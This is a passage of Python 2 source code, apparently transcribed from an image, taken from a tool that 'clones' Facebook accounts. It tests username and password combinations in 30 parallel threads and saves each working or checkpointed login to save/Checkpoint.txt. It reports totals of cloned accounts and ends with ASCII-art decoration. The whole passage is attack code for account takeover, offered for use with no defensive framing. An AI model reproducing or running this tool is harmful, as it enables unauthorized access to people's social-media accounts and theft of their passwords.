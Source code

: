                                print '\x1b[1;92m[Successfull] ' + k + c + user + '  |  ' + pass3

                                okb = open('save/Checkpoint.txt', 'a')

                                okb.write(k+c+user+pass3+'\n')

                                okb.close()

                                oks.append(c+user+pass3)

                            else:

                               if 'www.facebook.com' in q['error_msg']:

                                   print '\033[1;97m[Checkpoint] ' + k + c + user + '  |  ' + pass3

                                   cps = open('save/Checkpoint.txt', 'a')

                                   cps.write(k+c+user+pass3+'\n')

                                   cps.close()

                                   cpb.append(c+user+pass3)

                                                                                                                                                                                                                                                                                                                                                                                                        

                                                                                                                                                                                                          

        except:

            pass

        

    p = ThreadPool(30)

    p.map(main, id)

    print 50* '\033[1;91m-'

    print 'Process Has Been Completed ...'

    print 'Total Online/Offline : '+str(len(oks))+'/'+str(len(cpb))

    print('Cloned Accounts Has Been Saved : save/Checkpoint')

    jalan("Note : Your Checkpoint Accounts Will Open after  7 days")

    print ''

    print """
    \033[1;92m.                                  _____________¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶______________
______¶¶¶¶¶¶¶¶¶___________¶¶¶¶¶¶¶¶¶_______
____¶¶¶¶¶__________¶¶¶¶¶__________¶¶¶¶¶___
____¶¶___________¶¶¶¶¶¶¶¶¶____________¶¶__
____¶¶__________¶¶¶¶¶¶¶¶¶¶¶___________¶¶__
____¶¶______________¶¶¶¶¶¶____________¶¶__
____¶¶_____________¶¶¶¶¶¶¶____________¶¶__
____¶¶______¶¶___¶¶¶¶¶¶¶¶¶____________¶¶__
____¶¶_____¶¶¶¶¶¶¶¶¶¶¶¶¶¶_____¶_¶_____¶¶__
____¶¶_____¶¶¶¶¶¶¶¶¶¶¶________¶¶______¶¶__
____¶¶____¶¶¶¶¶¶¶¶¶¶¶¶¶_______¶¶¶_____¶¶__
____¶¶____¶¶¶__¶¶¶¶¶¶¶¶¶¶¶_____¶¶_____¶¶__
____¶¶______¶¶____¶¶¶¶¶¶¶¶¶____¶¶_____¶¶__
____¶¶_______¶_____¶¶¶¶¶¶¶¶¶_¶¶¶______¶¶__
____¶¶_____________¶¶¶¶¶¶¶¶¶¶¶________¶¶__
____¶¶_____________¶¶¶¶¶¶¶_¶_________¶¶___
_____¶¶_______¶¶___¶¶¶¶¶¶¶__________¶¶____
______¶¶______¶¶¶¶¶¶¶¶¶¶¶__________¶¶_____
_______¶¶_____________¶¶¶_________¶¶______
________¶¶___________¶¶__________¶¶_______
_________¶¶_________¶¶__________¶¶________
__________¶¶______¶¶¶__________¶¶_________
___________¶¶¶_______________¶¶___________
_____________¶¶____________¶¶¶____________
_______________¶¶¶_______¶¶¶______________